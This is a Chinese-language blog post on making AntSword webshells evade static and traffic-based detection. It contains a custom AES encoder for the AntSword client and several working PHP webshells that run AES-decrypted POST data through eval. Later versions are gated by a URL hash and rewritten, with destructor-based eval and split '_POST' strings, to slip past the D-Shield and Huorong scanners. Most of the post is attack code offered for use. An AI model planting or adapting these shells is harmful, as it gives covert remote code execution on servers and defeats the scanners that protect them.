 ```yaml
---
layout: post
title:  "蚁剑动静态免杀初试"
subtitle: '蚁剑动静态免杀初试'
date:   2021-02-28 18:00:00
tags: 工具 免杀
description: '工具 免杀'
color: 'rgb(0,191,255)'
cover: 'https://a111-1255560786.cos.ap-nanjing.myqcloud.com/2-1.jpg'
---
```


## 前言

早些时候蚁剑，冰蝎大火的时候就说要自己研究定制下，后来因为一些事情耽搁了，最近发现一些有趣的项目，随即就有了学习优秀项目的项目，所以就先研究下日常常用的神器-蚁剑。

## 蚁剑的编码器与解码器

蚁剑最出色的地方莫过于开源，方便二次开发。在日常渗透中webshell的流量加密算是一个基本操作了，否则太容易被查杀到了。而蚁剑的编码器和解码器就对流量进行了混淆，但是自带的base64、chr16、rot等太容易被查杀了，所以需要自己定义编码与解码器。

[蚁剑编码器与解码器](https://github.com/AntSwordProject/AwesomeEncoder)前人栽树后人乘凉，网上已经有现成的了。如果非要定制也可以根据其进行二次修改。

简单看一个aes的加密脚本

```js
function get_cookie(Name, CookieStr="") {
   var search = Name + "="
   var returnvalue = "";
   if (CookieStr.length > 0) {
     var sd = CookieStr.indexOf(search);
     if (sd!= -1) {
        sd += search.length;
        var end = CookieStr.indexOf(";", sd);
        if (end == -1){
          end = CookieStr.length;
        }
        returnvalue = window.unescape(CookieStr.substring(sd, end));
      }
   } 
   return returnvalue;
}

function encryptText(keyStr, text) {
  let buff = Buffer.alloc(16, 'a');
  buff.write(keyStr,0);
  keyStr = buff.toString();
  let encodetext = CryptoJS.AES.encrypt(text, CryptoJS.enc.Utf8.parse(keyStr), {
    mode: CryptoJS.mode.ECB,
    padding: CryptoJS.pad.ZeroPadding,
  }).toString();
  return encodetext;
}

module.exports = (pwd, data, ext={}) => {
  // ##########    请在下方编写你自己的代码   ###################
  // 从扩展中获取 shell 配置
  let headers = ext.opts.httpConf.headers;
  if(!headers.hasOwnProperty('Cookie')) {
    window.toastr.error("请先设置 Cookie (大小写敏感), 可通过浏览网站获取Cookie", "错误");
    return data;
  }
  let session_key = "PHPSESSID";
  let keyStr = get_cookie(session_key, headers['Cookie']);
  if(keyStr.length === 0) {
    window.toastr.error("未在 Cookie 中发现PHPSESSID", "错误");
    return data;
  }
  data[pwd] = encryptText(keyStr, data['_']);
  // ##########    请在上方编写你自己的代码   ###################
  // 删除 _ 原有的payload
  delete data['_'];
  // 返回编码器处理后的 payload 数组
  return data;
}
```

模块的定制化开发写了一个加密函数和一个获取cookie的函数，通过获取cookie来截取aes加密所需的key值，我们也可以自定义http请求头，来diy自己的编码器

了解原理后

## 动态免杀

动态免杀也就是流量加密，为了防止被流量分析设备检测，使用对称加密方式或非对称加密是最好的手段，同时返回包也应要加密返回。

```php
<?php
@session_start();
$pwd='ant';
$key=@substr(str_pad(session_id(),16,'a'),0,16);
@eval(openssl_decrypt(base64_decode($_POST[$pwd]), 'AES-128-ECB', $key, OPENSSL_RAW_DATA|OPENSSL_ZERO_PADDING));
?>
```

上传这个php马，连接时勾选aes加密

![](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/2246810-20210228232809396-2769305.png)

在请求信息中设置cookie

![](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/2246810-20210228233026081-16639951.png)

这样请求包和返回包就加密了。

### 小小改动

因为在awd比赛中，往往是不希望别人连接自己的shell的，所以简单对shell稍作修改，还可以混淆视听

```php
<?php
$requestUri = $_SERVER['REQUEST_URI'];
@session_start();
$key=@substr(str_pad(session_id(),16,'a'),0,16);
if(md5(substr($requestUri, -10))=="25e107b26e53900575dddf0339a83ca6"){eval(openssl_decrypt(base64_decode($_POST['tan']), 'AES-128-ECB', $key, OPENSSL_RAW_DATA|OPENSSL_ZERO_PADDING);}
?>
```

加完以后在就会获取当前请求url，并截取后面10位跟hash做比对，不对的话就无法使用这个shell后门了，效果如下。

![](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/2246810-20210228233929357-201808406.png)

连接时定义好链接和密码就行

## 静态免杀

自从php7.1以后，那些花里胡哨的变形就没得了，只能直面eval。简单对自己的马子做了下静态免杀

过D盾也是摸索着过的，参考网上文章也有些不太靠谱，在base64_decode和$_post处卡了很长时间，后来借鉴别人的免杀马，直接绕过检测。看其思路并不是绕过字符串检测而是改变其调用过程从而达到的绕过

```php
<?php
class mm
{
  public $a = '';
  function __destruct(){
    eval("$this->a");
  }
}
$requestUri = $_SERVER['REQUEST_URI'];
@session_start();
$key=@substr(str_pad(session_id(),16,'a'),0,16);
if(md5(substr($requestUri, -10))=="25e107b26e53900575dddf0339a83ca6"){
$b = new mm;
$b->a = openssl_decrypt(isset($_GET['id'])?$_POST['tan']:base64_decode($_POST['tan']), 'AES-128-ECB', $key, OPENSSL_RAW_DATA|OPENSSL_ZERO_PADDING);}
?>
```

但是呢，有一个很傻逼的问题，绕过了d盾，火绒却查杀了

![](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/2246810-20210301004457782-133000282.png)

稍作修改就能过火绒了

```php
if(md5(substr($requestUri, -10))=="25e107b26e53900575dddf0339a83ca6"){
$b = new mm;
$c = "_PO"."ST";
$b->a = openssl_decrypt(base64_decode(${$c}[tan]), 'AES-128-ECB', $key, OPENSSL_RAW_DATA|OPENSSL_ZERO_PADDING);}
```

但是D盾却又有告警，吐了。。

![](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/2246810-20210301004907161-1599933109.png)

## 结语

蚁剑是一款神器，还有很多东西值得去探索，另外各位走在前沿的师傅是真牛逼！